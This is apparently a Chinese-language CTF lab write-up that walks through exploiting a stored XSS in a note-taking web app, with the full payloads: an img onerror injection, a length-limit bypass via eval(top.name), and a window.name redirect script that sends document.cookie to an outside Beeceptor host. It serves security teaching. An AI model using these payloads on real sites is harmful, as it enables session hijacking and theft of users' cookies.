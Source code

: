 # lab_Simple Note

1. 一開始先隨意嘗試輸入一些內容，稍微看一下網頁執行的流程，然後去研究一下網頁的原始碼。

![截圖 2023-01-01 下午1.05.54.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25881.05.54.png)

![截圖 2023-01-01 下午1.06.50.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25881.06.50.png)

![截圖 2023-01-01 下午1.07.15.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25881.07.15.png)

1. 它會去 URL 取得 id ，並將 id 放在 api/note 後面，然後去 fetch ，fetch 回來後取得 title 跟 content ，然後分別存在 titleNode.innerHTML 及 contentNode.innerText，接著我任意嘗試去一些 XSS 發現在 title 輸入 “01<script>alert("hack_it")</script>” 不能成功，研究了一下發現 innerHTML 不能使用 <script>，但是可以使用`"<img src='x' onerror='alert(1)'>"`，因此我將 title 輸入的內容改為“01<img src=x onerror=alert("hack_it")>”，就可以成功 XSS 成功。

![截圖 2023-01-01 下午1.43.12.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25881.43.12.png)

![截圖 2023-01-01 下午2.01.58.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25882.01.58.png)

![截圖 2023-01-01 下午1.57.00.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25881.57.00.png)

1. 接下來我打算用跟前一個 lab 一樣的方式，將 fetch 放在 XSS 的裡面然後將 cookie 回傳，但發現 title 有長度的限制，放到 burp 裡面硬送也會 Response "Title length exceed 40”，因次現在我們只要克服如何有長度限制的 XSS 就可以了。

```
01<script>alert("hack_it")</script>
01<img src=x onerror=alert("hack_it")>
01<img src=x onerror=eval(top.name)>
```

![截圖 2023-01-01 下午2.18.55.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25882.18.55.png)

1. 因為 [Windows.name](http://Windows.name) 的值可以跨網頁存取，利用這一點，可以使用 Beecepter 幫我先設定 [window.name](http://window.name) 的值跟轉址到 note 的 location，因此到 note 的頁面後就可以突破長度的限制，任意寫進自己的 payload 。

![截圖 2023-01-01 下午2.39.14.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25882.39.14.png)

1. 然後以下是我這邊進行操作的 Step ，確定 [windows.name](http://windows.name) 可以寫為自己想要的內容。

```
Step 1 :
  title = 01<img src=x onerror=eval(top.name)>

Step 2 :
Beecepter 設定轉跳內容，這邊設定完後，存取 https://andy1.free.beeceptor.com 就會自動設定
windwos.name 為 alert ，然後轉址到 note，並且跳出 alert(1)。接下來 windows name 的內容是
我們可以任意且的。
	<script>
	window.name = "alert(1)"
	location = "https://note.ctf.zoolab.org/note/789eeb37a4e3dd01c7aa258e"
	</script>

Step 3 : 
將 windows.name 改為 fetch 自己的網址後，也可以成功看到 Response 123。
	set
	window.name = "fetch('https://andy1.free.beeceptor.com?c='+123)"
	=>
  <script>
  window.name = "fetch('https://andy1.free.beeceptor.com?c='+123)"
	location = "https://note.ctf.zoolab.org/note/f83aaf78e1dace8aba21d63c"
	</script>

```

1. 最後，將 fetch 內容改為 document.cookie ，然後按一下 Report ，並把 report 的 url 改為自己的網址，並設定一個 admin 的 cookie name，然後就成功獲得 FLAG。

```
<script>
window.name = "fetch('https://andy1.free.beeceptor.com?c='+document.cookie)"
location = "https://note.ctf.zoolab.org/note/1accd205c0c0885d18ea0a2f"
</script>
```

![截圖 2023-01-01 下午4.04.41.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25884.04.41.png)

![截圖 2023-01-01 下午3.53.31.png](lab_Simple%20Note%20916645f9bb8f4056b312d7b07f5d382e/%25E6%2588%25AA%25E5%259C%2596_2023-01-01_%25E4%25B8%258B%25E5%258D%25883.53.31.png)